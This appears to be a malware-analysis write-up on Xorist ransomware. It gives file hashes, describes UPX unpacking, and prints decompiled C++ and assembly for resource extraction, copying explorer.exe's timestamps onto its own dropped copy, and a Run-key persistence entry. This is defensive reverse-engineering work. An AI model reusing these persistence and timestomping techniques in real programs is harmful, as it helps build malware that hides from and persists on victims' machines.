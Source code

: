 # Xorist Ransomware

* [VT Link](https://www.virustotal.com/gui/file/9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16)
* [VT Link Unpack](https://www.virustotal.com/gui/file/9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16)

## UPX Packing

The malware is a program compressed with UPX. We will simply decompress it using the UPX program.

![dupx](/images/xorist/dupx.png)

And malware is a simple PE32 file from 2012 :)

![dupx](/images/xorist/diec.png)

- **MD5**: 8c244ebd49a18b4bfc0cf546ee42ee9f 
- **SHA-1**: 653f4a37d6f66d6c2fc8551c1b31429db299c257 
- **SHA-256**: 9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16 
- **Vhash**: 014046551d5d60a013z10025hz204001gz 
- **Authentihash**: 394052c0bb3b50de83e394a7584c6ca22abb59ab43423f3ab1ebde2fac644190 
- **Imphash**: 0ee5d9cb6f5676c02853dce193d35794 
- **SSDEEP**: 192:e/TrG62a6B10k3g4fXk1iTV3HGc7EkpAqEjvu2q9C/YpXnAITZfPtRMCy00T:eebFNw4Pk1itKkpAjjI2YpdmCy 
- **TLSH**: T1C842290FFDE044E6E712C7F213172606CB7D7561A2A067266FAC2C15147A6E3EE6860F 
- **File type**: Win32 EXE 
- **Magic**: PE32 executable for MS Windows (GUI) Intel 80386 32-bit 
- **TrID**: 
  - Win32 Executable MS Visual C++ (generic) (47.2%)
  - Win64 Executable (generic) (15.9%)
  - Win32 Dynamic Link Library (generic) (9.9%)
  - Win16 NE executable (generic) (7.6%)
  - Win32 Executable (generic) (6.8%)
- **File size**: 12.00 KB (12288 bytes)

## Analyze

### Heap Process

```cpp
 hHeap = GetProcessHeap();
 sub_401F87();

BOOL sub_401F87()
{
  HRSRC ResourceA; // eax
  DWORD v1; // eax
  HGLOBAL Resource; // eax
  SIZE_T *v3; // eax
  SIZE_T *v4; // edi
  SIZE_T v5; // ebx
  SIZE_T *v6; // edi
  LPVOID v7; // eax
  SIZE_T *v8; // edi
  SIZE_T v9; // ebx
  SIZE_T *v10; // edi
  const CHAR *v11; // eax
  SIZE_T *v12; // edi
  SIZE_T v13; // ebx
  SIZE_T *v14; // edi
  const CHAR *v15; // eax
  SIZE_T v16; // edi
  HRSRC hResInfo; // [esp+4h] [ebp-10h]
  DWORD v19; // [esp+8h] [ebp-Ch]
  HGLOBAL hResData; // [esp+Ch] [ebp-8h]

  ResourceA = FindResourceA(0, (LPCSTR)0xE, (LPCSTR)2);
  if ( !ResourceA )
    goto LABEL_9;
  hResInfo = ResourceA;
  v1 = SizeofResource(0, ResourceA);
  if ( !v1 )
    goto LABEL_9;
  v19 = v1;
  Resource = LoadResource(0, hResInfo);
  if ( !Resource )
    goto LABEL_9;
  hResData = Resource;
  v3 = (SIZE_T *)LockResource(Resource);
  if ( !v3 )
    goto LABEL_9;
  v4 = v3;
  RtlMoveMemory(&dword_406DB9, v3, 16);
  v4 += 4;
  sub_40211B(v4, v19 - 16);
  v5 = *v4;
  v6 = v4 + 1;
  v7 = HeapAlloc(hHeap, 8u, v5);
  if ( !v7 )
    goto LABEL_9;
  dword_407519 = (int)v7;
  RtlMoveMemory(v7, v6, v5);
  v8 = (SIZE_T *)((char *)v6 + v5);
  v9 = *v8;
  v10 = v8 + 1;
  v11 = (const CHAR *)HeapAlloc(hHeap, 8u, v9);
  if ( !v11
    || (lpText = v11,
        RtlMoveMemory(v11, v10, v9),
        v12 = (SIZE_T *)((char *)v10 + v9),
        v13 = *v12,
        v14 = v12 + 1,
        (v15 = (const CHAR *)HeapAlloc(hHeap, 8u, v13)) == 0) )
  {
LABEL_9:
    JUMPOUT(0x402330);
  }
  lpSubKey = v15;
  RtlMoveMemory(v15, v14, v13);
  v16 = (SIZE_T)v14 + v13;
  RtlMoveMemory(&unk_406DC9, v16, 16);
  v16 += 16;
  RtlMoveMemory(&byte_407529, v16, 5);
  v16 += 5;
  RtlMoveMemory(byte_406DD9, v16, 16);
  v16 += 16;
  RtlMoveMemory(byte_406DE9, v16, 16);
  v16 += 16;
  RtlMoveMemory(&dword_407525, v16, 4);
  v16 += 4;
  RtlMoveMemory(&dword_4065A5, v16, 4);
  v16 += 4;
  RtlMoveMemory(&lDistanceToMove, v16, 4);
  RtlMoveMemory(&nNumberOfBytesToRead, v16 + 4, 4);
  return FreeResource(hResData);
}

```

This code is a Windows function that extracts and manipulates data from a resource embedded in the executable file. The extracted data is then copied to various memory locations for further processing.

### Setup process

```cpp
BOOL sub_402472()
{
  HANDLE hFile; // [esp+0h] [ebp-4h]

  GetWindowsDirectoryA(byte_40755E, 0x200u);
  PathAddBackslashA(byte_40755E);
  lstrcatA(byte_40755E, aExplorerExe);
  hFile = CreateFileA(byte_40755E, 0x80000000, 1u, 0, 3u, 0, 0);
  GetFileTime(hFile, &CreationTime, &LastAccessTime, &LastWriteTime);
  return CloseHandle(hFile);
}
```

The malware will retrieve the creation/modification date information of explorer.exe located in the Windows directory. And place the same information into a copy of itself in the Temporary folder under the name QLUm8OR6vUIE1wP.exe.

![copy-temp](/images/xorist/copy-temp.png)

It will add a registry key to start itself upon each startup.

```
push myfile-ok.405950                   ; "C:\\Users\\Admin\\AppData\\Local\\Temp\\QLUm8OR6vUIE1wP.exe"
push myfile-ok.4043D4                   ; "Alcmeter"
push myfile-ok.4043A6                   ; "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
push 80000002                           ; 
call myfile-ok.402422                   ;

push ebp
mov ebp,esp
add esp,FFFFFFF8
lea eax,dword ptr ss:[ebp-4]
push eax
lea eax,dword ptr ss:[ebp-8]
push eax
push 0
push 2001F
push 0
push myfile-ok.404379
push 0
push dword ptr ss:[ebp+C]
push dword ptr ss:[ebp+8]
call <JMP.&RegCreateKeyExA>
push dword ptr ss:[ebp+14]
call <JMP.&lstrlen>
push eax
push dword ptr ss:[ebp+14]
push 1
push 0
push dword ptr ss:[ebp+10]
push dword ptr ss:[ebp-8]
call <JMP.&RegSetValueExA>
push dword ptr ss:[ebp-8]
call <JMP.&RegCloseKey>
```





